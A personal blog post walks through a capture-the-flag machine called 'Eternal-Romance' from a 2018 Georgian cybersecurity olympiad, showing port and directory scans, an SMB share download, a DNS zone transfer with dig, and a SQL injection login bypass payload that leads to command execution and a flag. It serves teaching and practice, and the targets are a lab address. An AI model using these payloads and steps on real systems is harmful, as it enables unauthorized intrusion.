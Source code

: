 ```yaml
---
layout: post
title:  "CyberCube2018 EternalRomance Walkthrough"
date:   2018-05-10 21:07:13 +0400
categories: jekyll update
---
```

Hi, today we're gonna deal with the vulnerable machine "Eternal-Romance" which I have exploited on cyber security olympiad in Georgia called "CyberCube 2018"
Special thanks to Georgian CERT for organizing such events & olympiads annually!<br/> (btw prizes for first 3 place were horrible but it's ok xD fuck it nvm)

So let's begin
Today’s covered topics will be:
 - Various Port Scanning methods (my personal preference)
 - Port Analysis
 - Blind SQL Injection
 - SMB Service Enumeration
 - DNS Zone Transfer Attack
 - Remote Code Execution

Port scanning gave us result: 
<br/>
{% highlight text %}
root@kali:~# nmap -Pn -sV 192.168.88.236

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:D2:91:27 (Oracle VirtualBox virtual NIC)
Service Info: Host: ETERNALROMANCE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

`-sV` - Banner Grabbing<br/>
`-T4` - For fast scanning<br/>
`--script vuln` - Running full NSE scripts against our target<br/>
`-Pn` - I always throw a -Pn in there just in case the target blocks ping probes, although it's optional.<br/>


P.S From the beginning when I read that title of this vulnerable machine was EternalRomance I thought it would be easy peasy lemon squeezy with SMB Exploit,
but later after trying lot of exploits I found that it was named EternalRomance just because to trick us. (trick was successful in my case... lol I wasted lot of time on that)

Open webservice port: 80

I run the `Dirb` scan for enumerating directories
<br/>
`root@kali:~# dirb http://192.168.88.236/`
<br/>
{% highlight text %}
---- Scanning URL: http://192.168.88.236/ ----
==> DIRECTORY: http://192.168.88.236/images/                                   
+ http://192.168.88.236/index.html (CODE:200|SIZE:288)                         
+ http://192.168.88.236/server-status (CODE:403|SIZE:294)
{% endhighlight %}
<br/>
I've found nothing suspicious here, so I decided to visit webpage to see if there was any kind of hints, I've checked the source code code of index.html and there I've found text which was encrypted via<br/> Base64 encryption.<br/>
![httpauth]({{ "/images/indexpage_source_code.png" | absolute_url }})
<br/>
(for base64 decryption I'm using: https://www.base64decode.org/)
I decrypted this Base64 encryption and got this result = `/cybercube2018-eternalromance`
It was obvious that this was hidden directory so I entered http://192.168.88.236/cybercube2018-eternalromance

Aaand voila! We've got some kind of admin login page here!<br/>
Whenever I see such a login page,first thing I do is Blind SQL Injection: `'OR' 1=1`
![httpauth]({{ "/images/adminloginpage.png" | absolute_url }})

We've got the "Login Incorrect" message, but hell no! I won't buy that fairy tales^^ <br/>
Again I've checked source and I see code with this logic: if you would input the given POST parameters (username & password) some kind of image with name `samba.png` would appear.<br>
When I've done this, now I only got thi samba image and nothing to grip on, as I already mentioned I've tried lot of samba exploits and none of them worked. (no, I lie, actually they worked but no session was created in meterpreter)

So I've thought why not to try enumerating SMB folders.

`root@kali:~# smbclient -L 192.168.88.236` 
<br/>
![httpauth]({{ "/images/smb_folder_list.png" | absolute_url }})
<br/>

There we see cube2018 folder.

Now we need to access this folder, we run the following command in our terminal:
<br/>
`root@kali:~# smbclient \\\\192.168.88.236\\cube2018` <br/>
`ls`
<br/>
{% highlight text %}
  .                                   D        0  Tue Apr 10 08:29:04 2018
  ..                                  D        0  Mon Apr 23 02:10:56 2018
  Haha.txt                            N       61  Tue Apr 10 04:40:09 2018
{% endhighlight %}

Now let's exit from smb process with `Ctrl + C` and run the following command in terminal to download Haha.txt from our SMB folder.
<br/>
`smbget smb://192.168.88.236/cube2018/Haha.txt`

We've got this txt file, now let's see what's inside it!
<br/>
`cat Haha.txt`
<br/>
And again we've got text which is encrypted via Base64 encryption 
`bmFtZTogZXRlcm5hbHJvbWFuY2UsIHByb3RvY29sOiBkbnMoNTMvdGNwKQo=`
<br/>
Decrypting this text gave us result: 
`name: eternalromance, protocol: dns(53/tcp)

After few minutes of thinking and googling most common 53 port issues, I realised that it was<br/>`DNS Zone Transfer Attack`

so I instantly opened-up terminal and run following command: 
<br/> <br/>
`dig axfr @192.168.88.236 eternalromance`
<br/>
![httpauth]({{ "/images/dig_zone.png" | absolute_url }})
<br/>
Feels nice right? here we got all the information we need for editing our host file, so what are we waiting for? <br/>
`nano /etc/hosts` 
<br/>
Add new line in hosts file 
<br/>
`192.168.88.236 cybercube2018.eternalromance.com` <br/>
It should look like this when you'll run the following command<br/> `cat /etc/hosts`
<br/>
![httpauth]({{ "/images/cat_hosts.png" | absolute_url }})
<br/>
Now open up your browser and browse http://cybercube2018.eternalromance.com/
You'll see login page,as I already told u when I see login page first I run SQL Injection: `'OR' 1=1`
<br/>
![httpauth]({{ "/images/cat_hosts.png" | absolute_url }})
<br/>
It works! 
Now we see only fuckin empty textbox? WTF?<br/>
<br/>
![httpauth]({{ "/images/rce_textbox.png" | absolute_url }})
<br/>
(if you thought this then quit pentesting right now please, it's a RCE my friend)
<br/>
<br/>
So we've got RCE right now,which means that we can execute any command we want. <br/>
After running command `ls` in terminal, we see that we've got 3 files over there, those files are: index.php rce.php test.php<br/>
just ignore them... Our mission is to get flag.txt just run the command <br/>
`cat /home/eviltwin/flag.txt` <br/>
<br/>
![httpauth]({{ "/images/flag.png" | absolute_url }})
<br/>
Everything's done now we've got the flag and mission is completed... congratulations!
<br/>
Hey u there, that's not the end! READ THIS!
<br/>
![httpauth]({{ "/images/lasha.png" | absolute_url }})
P.S You might wonder why we have this text in test.php... Who the hek is Lasha? Lasha Takashvili is my friend, cool guy, author of this vulnerable machine and the guy who inspired me to make this security blog. <br/>
Don't forget to check out his blog, you'll find lot of interesting boxes there - [http://higgsx.github.io](http://higgsx.github.io)



 

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
